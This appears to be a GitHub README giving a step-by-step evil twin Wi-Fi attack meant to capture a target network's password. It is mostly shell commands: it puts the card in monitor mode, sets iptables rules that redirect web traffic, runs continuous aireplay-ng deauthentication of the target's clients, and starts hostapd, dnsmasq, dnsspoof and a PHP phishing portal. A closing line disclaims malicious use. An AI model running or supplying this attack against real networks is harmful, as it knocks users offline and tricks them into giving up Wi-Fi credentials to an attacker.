 
# Evil Twin Attack Guide

This guide explains how to conduct an evil twin attack to obtain the password for a target network.

![](eviltwin.jpg)

*Note: you need a network card capable of packet injection for this attack*

git clone the repo and follow the steps below.

## Step 1: Install required software 

```bash
# Update package lists and install required software 

sudo apt-get update 
sudo apt-get install hostapd dnsmasq apache2 php-cli

```


## Step 2: Configure the network interface

```bash

# Put the wireless interface into monitor mode 
sudo airmon-ng start wlan0 

# Check the monitor mode interface name 
iwconfig

# Bring up the wireless interface and assign an IP address
# CHANGE THE INTERFACE NAME ACCORDINGLY

ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0

# Add a route to the target network
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

# Execute this command to enable IP Forwarding:
echo 1 > /proc/sys/net/ipv4/ip_forward


# Configure NAT to allow traffic to pass through the interface
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT

# Redirect traffic to port 80 to the fake AP
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1

``` 


## Step 3: Find the target network


```bash
# Use airodump-ng to find the target network 

airodump-ng wlan0
```

## Step 4: Deauthenticate clients from the target network

```bash
#Use aireplay-ng to deauthenticate clients from the target network 

sudo aireplay-ng --deauth 0 -a <mac-address-of-target-AP> wlan0

```

## Step 5: Start the attack

*Note: the .conf file are provided in the repo. Make sure you change the interface name and the ssid in these files*

Each of the following commands is to be run on a separate terminal

```bash
# Start the hostapd service with a configuration file 

hostapd hostapd.conf  

# Start the dnsmasq service with a configuration file 

dnsmasq -C dnsmasq.conf -d  

# Start the dnsspoof service on the wireless interface 

dnsspoof -i wlan0mon  

# Start a PHP server on all interfaces listening on port 80 

cd webserver

php -S 0.0.0.0:80

```

Note: This guide is for educational purposes only and should not be used for malicious purposes. It is important to always obtain proper authorization before conducting any security testing.
